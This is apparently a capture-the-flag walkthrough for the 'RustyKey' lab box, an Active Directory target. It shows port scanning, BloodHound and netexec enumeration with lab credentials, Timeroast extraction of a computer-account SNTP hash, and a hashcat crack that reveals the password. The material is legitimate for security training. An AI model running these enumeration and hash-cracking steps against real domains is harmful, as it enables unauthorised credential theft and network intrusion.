


```
Machine Information
As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: rr.parker / 8#t5HE8L!W3A
```

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```

```
(NTLM:False) --> So need to authenticate with Kerberos !
```

```
bloodhound-python --domain rustykey.htb --domain-controller dc.rustykey.htb --nameserver 10.10.11.75 --username rr.parker --password '8#t5HE8L!W3A' --collectionmethod all --dns-tcp --zip
```

```ldap
nxc ldap rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -k --users
```


### [Timeroast Attack](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/timeroasting)

```
1. The target must be a computer account; ordinary user accounts cannot be directly targeted (unless "Target Timeroasting" is used to modify properties).
   
2. The target domain controller must have the NTP service running with Microsoft SNTP Extended Authentication (MS-SNTP) enabled and responding, with UDP port 123 open.
   
3. The attacker can send unauthenticated MS-SNTP requests to the DC (without valid credentials).
   
4. The attacker can enumerate the RIDs (Relative Identifiers) of computer accounts in the domain.
   
5. (Optional) For "Target Timeroasting," domain administrator privileges are required to temporarily modify user account properties to treat them as computer accounts.

6. The computer account passwords in the domain are not strongly protected (e.g., weak passwords or not regularly changed).
```


```
python timeroast.py DC.rustykey.htb
```




We need to donwload the latest version of hashcat inorder to crack the SNTP [Hash](https://hashcat.net/hashcat/).


```hashcat
└─# ./hashcat.bin -m 31300 -a 0 ../hash_ /usr/share/wordlists/rockyou.txt -O
```


```bash
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$sntp-ms$d7e7fef91094a412a2e8cb82c7716f1a$1c0111e900000000000a10504c4f434cec0d09c52308c3f3e1b8428bffbfcd0aec0d1f46bb191728ec0d1f46bb193052:Rusty88!
Approaching final keyspace - workload adjusted.

```


